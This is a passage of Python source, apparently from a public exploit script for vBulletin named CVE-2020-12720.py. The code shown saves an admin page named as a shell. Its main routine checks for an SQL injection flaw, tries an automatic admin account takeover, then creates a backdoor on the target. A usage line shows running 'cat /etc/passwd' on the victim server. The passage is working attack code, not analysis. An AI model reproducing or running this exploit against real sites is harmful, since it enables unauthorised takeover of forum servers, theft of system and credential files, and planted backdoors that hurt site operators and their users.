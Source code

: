                  'securitytoken':sToken}
        oResponse = getData(sURL + sPath, lData)
        if not oResponse.code == 200: print('[!] Error submitting page content for ' + sPageName)
        
        ## Finally saving the new page
        sPath = 'admin/savepage'
        lData = {'input[ishomeroute]':'0',
                 'input[pageid]':'0',
                 'input[nodeid]':'0',
                 'input[userid]':'1',
                 'input[screenlayoutid]':'2',
                 'input[templatetitle]':sPageName,
                 'input[displaysections[0]]':'[{"widgetId":"23","widgetInstanceId":"' + sWidgetInstanceID + '"}]',
                 'input[displaysections[1]]':'[]',
                 'input[displaysections[2]]':'[]',
                 'input[displaysections[3]]':'[]',
                 'input[pagetitle]':sPageName,
                 'input[resturl]':sPageName,
                 'input[metadescription]':'Photubias+Shell',
                 'input[pagetemplateid]':sPageTemplateID,
                 'url':sURL,
                 'securitytoken':sToken}
        oResponse = getData(sURL + sPath, lData)
        if not oResponse.code == 200: print('[!] Error saving page content for ' + sPageName)
        return sPageName

    def main():
        if len(sys.argv) == 1:
            print('[!] No arguments found: python3 CVE-2020-12720.py <URL> <CMD>')
            print('    Example: ./CVE-2020-12720.py http://192.168.50.130/ "cat /etc/passwd"')
            print('    But for now, ask questions then')
            sURL = input('[?] Please enter the address and path to vBulletin ([http://192.168.50.130/): ')
            if sURL == '': sURL = 'http://192.168.50.130'
        else:
            sURL = sys.argv[1]
            sCMD = sys.argv[2]
        if not sURL[:-1] == '/': sURL += '/'
        if not sURL[:4].lower() == 'http': sURL = 'http://' + sURL
        print('[+] Welcome, first verifying the SQLi vulnerability')
        if verifyBug(sURL):
            print("----\n" + '[+] Attempting automatic admin account takeover')
            sUSERID = takeoverAccount(sURL, sNEWPASS)
            sADMINPASS = sNEWPASS
            if sUSERID == '':
                sUSERID = '1'
                sADMINPASS = input('[?] Please enter the admin password (userid ' + sUSERID + '): ')
        else:
            sADMINPASS = input('[?] Please enter the admin password (userid ' + sUSERID + '): ')
        print("----\n"+'[+] So far so good, attempting the creation of the backdoor')
        sPageName = createBackdoor(sURL, sADMINPASS, sUSERID)
